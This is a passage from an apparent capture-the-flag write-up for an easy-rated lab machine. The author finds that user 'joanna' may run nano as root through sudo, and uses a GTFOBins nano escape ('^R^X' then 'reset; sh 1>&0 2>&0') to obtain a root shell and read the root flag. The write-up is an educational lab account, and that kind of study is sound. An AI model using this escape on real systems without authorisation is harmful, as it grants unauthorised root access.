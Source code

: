 Well at least nano was working. Time to retry everything I did before, but with nano working.

So to reiterate where I am; as user `joanna` and my sudoer's file showed that I can `sudo` nano - which means it will run as root - but only on to edit the file `/opt/priv`.

```console
$ cat /etc/sudoers.d/joanna
joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv
```

So to leverage that, [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo) shows I can use that sudo access to escalate or maintain access with elevated privileges by executing commands in nano itself:

```console
sudo nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
``` 

and bam - that gives me a kinda shitty shell, but enough to cat `/root/root.txt`:

2f907ed450b361b2c2bf4e8795d5b561


# Conclusion

This was rated as an easy box. I struggled a lot with the intermediate steps which were the path to root I *needed* to take. I think its kind of cool I found what I think was not the intended way to get the user flag, but it did end up taking me down the wrong path, sort of. I was never going to get nano with the original php shell I had. So that was a cool, albeit frustrating thing. 
